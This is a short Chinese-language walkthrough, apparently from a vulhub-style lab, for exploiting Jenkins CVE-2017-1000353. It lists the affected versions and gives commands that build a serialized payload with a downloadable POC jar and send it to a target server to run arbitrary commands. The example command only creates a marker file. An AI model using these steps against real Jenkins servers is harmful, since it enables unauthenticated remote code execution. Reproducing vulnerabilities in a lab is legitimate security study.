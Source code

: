 ## 漏洞概述

攻击者使用该漏洞可以在被攻击服务器执行任意代码，漏洞利用不需要任何的权限

## 影响范围

```http
Jenkins <=2.56
Jenkins LTS <= 2.46.1
```

## 漏洞利用

1、下载[CVE-2017-1000353-1.1-SNAPSHOT-all.jar](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar)，这是生成POC的工具

执行下面命令，生成字节码文件

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"

# jenkins_poc.ser是生成的字节码文件名
# "touch ..."是待执行的任意命令
```

2、将刚才生成的字节码文件发送给目标

```bash
python CVE-2017-1000353.py http://your-ip:8080 jenkins_poc.ser
```

